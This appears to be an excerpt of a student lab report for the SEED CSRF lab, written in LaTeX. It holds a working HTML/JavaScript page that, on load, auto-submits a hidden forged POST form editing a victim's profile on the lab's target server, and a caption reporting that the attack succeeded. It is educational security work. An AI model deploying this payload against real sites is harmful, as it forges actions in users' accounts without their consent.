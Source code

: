 \subsection{Task 3: CSRF Attack using POST Request}
%
\begin{lstlisting}[language=HTML, caption=Changes in {\fontfamily{qcr}\selectfont editprofile.html},
    label={lst:editprofile_html}]
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>"; // change here
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>"; // change here
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='56'>"; // change here

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit"; // change here
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}

\begin{figure}
    \centering
    \includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/editprofile_alice.png}
    \caption{Showing ``Samy is my hero'' in the Alice's profile page.}
    \label{fig:edited_alice_profile}
\end{figure}

